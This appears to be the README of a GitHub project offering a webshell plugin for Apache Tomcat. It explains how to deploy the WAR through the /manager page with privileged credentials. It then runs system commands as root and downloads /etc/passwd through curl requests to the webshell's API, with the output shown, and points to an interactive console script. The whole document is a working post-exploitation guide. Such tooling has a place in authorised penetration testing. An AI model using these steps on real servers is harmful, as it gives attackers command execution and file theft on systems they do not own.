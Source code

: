 # Apache Tomcat - Upload an app

## Requirements

 - A valid **username and password** of a user with high privileges on Apache Tomcat.

## Exploitation

### Step 1: Access the Tomcat manager and upload the webshell plugin

First of all, you will need to access the Apache Tomcat `/manager` page at http://127.0.0.1:10080/manager/html, and connect to it with an high privilege account of the Apache Tomcat server.

![](./imgs/manager.png)

Then choose the WAR file of the webshell plugin and click on "Deploy":

![](./imgs/upload_a_plugin.png)

And the application is deployed:

![](./.github/webshell_uploaded.png)

### Step 2.1: Executing commands

You can now execute commands by sending a GET or POST request to http://127.0.0.1:10080/webshell/api with `action=exec&cmd=id`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/webshell/api' --data "action=exec&cmd=id"
{"stdout":"uid=0(root) gid=0(root) groups=0(root)\n","stderr":"","exec":["/bin/bash","-c","id"]}
```

You can also access it by a GET request from a browser:

![](./imgs/exec_code_web.png)

### Step 2.2: Downloading files

You can also download remote files by sending a GET or POST request to http://127.0.0.1:10080/webshell/api with `action=download&cmd=/etc/passwd`:

```sh
$ curl -X POST 'http://127.0.0.1:10080/webshell/api' --data "action=download&path=/etc/passwd" -o-
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

### Step 3: The interactive console

When your webshell is active, you can now use the interactive [console.py](https://github.com/p0dalirius/Tomcat-plugin-webshell/console.py) to execute commands and download remote files.

https://user-images.githubusercontent.com/79218792/168489455-023b52c5-e8a9-4cd9-96ca-f26c14304236.mp4

## References
 - https://tomcat.apache.org/
